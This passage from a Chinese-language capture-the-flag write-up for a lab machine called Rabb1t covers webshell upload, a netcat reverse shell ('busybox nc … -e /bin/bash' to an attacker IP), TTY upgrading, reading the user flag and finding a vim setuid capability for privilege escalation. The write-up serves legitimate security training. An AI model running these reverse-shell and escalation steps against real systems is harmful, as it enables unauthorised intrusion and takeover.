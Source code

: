 脚本成功上传了一个PHP webshell，并获得了 `www-data` 用户的命令执行权限。

# 三、初始访问与本地枚举

## 1. 反弹 Shell

为了获得更稳定的交互式会话，在攻击机上设置 Netcat 监听，并从 webshell 中执行反弹 shell 命令。

**攻击机监听:**

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 8888
```

**Webshell 中执行:**

```bash
cmd > busybox nc 192.168.205.128 8888 -e /bin/bash
```

成功获得 `www-data` 用户的反弹 shell，并升级为标准的 TTY。

```
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
reset xterm  
export TERM=xterm  
export SHELL=/bin/bash  
stty rows 24 columns 80
```

## 2. 本地信息收集

在 `/home` 目录下发现用户 `morii`，并在其家目录下找到并读取了 `user.txt` 文件。

```
www-data@Rabb1t:/home/morii$ ls -al
...
-rw-r--r-- 1 morii morii   32 Jul 17 11:09 user.txt
www-data@Rabb1t:/home/morii$ cat user.txt 
flag{user_Down the Rabbit-Hole}
```

# 四、权限提升

## 1. SUID/Capabilities 权限检查

对系统进行权限提升向量的排查。`find` 命令查找 SUID 文件，但未发现明显可利用的异常文件。接着使用 `getcap` 检查文件的 Capabilities。

```
www-data@Rabb1t:/home/morii$ getcap -r / 2>/dev/null
/usr/bin/vim = cap_setuid+ep
...
```


[URL]: http://192.168.205.128:8000/private/uploads/JEk-Wwl_SpBQMaPvCw3mgBcAB1m7bw/shell.php